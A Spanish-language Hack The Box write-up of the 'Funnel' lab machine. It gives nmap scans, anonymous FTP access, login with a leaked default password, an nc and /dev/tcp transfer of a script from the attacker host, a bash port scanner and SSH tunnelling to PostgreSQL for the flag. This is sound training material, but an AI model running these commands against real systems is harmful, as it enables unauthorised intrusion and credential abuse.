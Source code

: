 ```yaml
---
title: Writeup funnel - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - funnel
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina funnel en Hack The Box.
keywords:
  - writeup funnel
  - hack the box funnel
  - resolución máquina funnel
  - funnel hack the box
  - htb funnel
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Funnel)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=VzS3cpyRyuc)
- 🧠 **Explicación resumida**: 

------

#easy #linux #nmap #ping  #ftp #cat #ssh #portscannersh

------
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor FTP?
	mail_backup

3)¿Cuál es la contraseña por defecto de la cuenta que todo nuevo miembro del equipo «Embudo» debe cambiar lo antes posible?
	funnel123#!#

4)¿Qué usuario no ha cambiado aún su contraseña por defecto?
	christine

5)¿Qué servicio se ejecuta en el puerto TCP 5432 y sólo escucha en localhost?
	postgresql

6)En este escenario, necesitas acceder a un servicio que se ejecuta en el servidor. Por lo tanto, generará tráfico dirigido a un puerto en su máquina local y, a su vez, SSH hará un túnel con este tráfico hacia el puerto remoto.
	local port forwarding

7)¿Cómo se llama la base de datos que contiene la bandera?
	secrets

8)¿Podría utilizar un túnel dinámico en lugar del reenvío local de puertos? Sí o No.
	yes

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.243.9
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.243.9 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22 10.129.243.9 -oN target
```

![[Funnel1.png]]

![[Funnel2.png]]

![[Funnel3.png]]
*TTL:* Maquina Linux
*Puertos*:
	`21` [[ftp]]
	`22` [[ssh]]
*Datos Importantes:*
	El servicio [[ftp]] tiene la vulnerabilidad para conectarse como el usuario *anonymous*

------
# Conexion por [[ftp]]

Nos conectamos con el comando `ftp 10.129.243.9`, en usuario ponemos anonymous y en contraseña no colocamos nada. Esta es la vulnerabilidad que vimos antes con el escaneo de nmap
Entramos al directorio mail_backup y descargamos con el comando `get` los archivos password_policy.pdf y welcome_28112022

![[Funnel4.png]]

----------
### Analizamos el contenido de los archivos

*Archivo welcome_28112022:*

![[Funnel5.png]]
Nos da la informacion de que existen los usuarios, optimus, albert, andreas, christine, y maria

*Archivo password_policy.pdf*
Lo abrimos con el comando `xdg-open password_policy.pdf`

![[Funnel6.png]]
Nos informa que los usuarios nuevos tienen por defecto la contraseña ``funnel123#!#``

--------
## Conexion por [[ssh]]

El usuario christine no habia cambiado su contraseña y nos conectamos con `ssh christine@10.129.243.9 -p 22`
![[Funnel7.png]]
Ya estamos dentro de la maquina

----------

# [[Tratamiento de la TTY]]

------------
### Vamos a escanear los puertos con [[portScanner.sh a nivel local]]

Nuestra maquina: ``nc -nlvp 443 < portScanner.sh``
Maquina victima: ``cat < /dev/tcp/10.10.16.3/443 > portScanner.sh``

```
#!/bin/bash

function ctrl_c(){
  echo "[!]Saliendo..."
  exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
  timeout 1 bash -c "echo '' > /dev/tcp/127.0.0.1/$i" 2>/dev/null && "[!]Puerto abierto: $i" &
done
```

Y le damos permiso de ejecucion al archivo con `chmod +x portscanner.sh`

![[Funnel8.png]]
Sabemos que esta abierto el 21:ftp, 22:ssh, y el 5432 que no sabemos que es

Para saber que servicio corre en el puerto 5432 vamos a usar [[getent services]] con el comando `getent services 5432`. Y por detecto en este puerto corre el servicio postgresql
![[Funnel9.png]]

--------
# Conexion por [[postgresql]] y tunneling de [[ssh]]

Nos vamos a conectar nuevamente por [[ssh]] pero haciendo que el puerto de la maquina victima 5432 sea nuestro puerto 1234
``ssh -L 1234:localhost:5432 christine@10.129.243.9``


Y ahora nos vamos a poder conectar a la [[postgresql]] con el comando ``psql -U christine -h localhost -p 1234``
y cuando nos pide contraseña ponemos la misma de antes funnel123#!#

Una vez dentro de la base de datos, listamos la flag
```posgresql
`\l                   |para ver las bases de datos
\c                    |secrets para usar la base de datos
\dt                   |para ver las tablas y columnas
SELECT * FROM flag;   | para listar todo el contenido de la tabla flag
```

![[Funnel10.png]]

----------
# Creditos
Writeup Oficial HackTheBox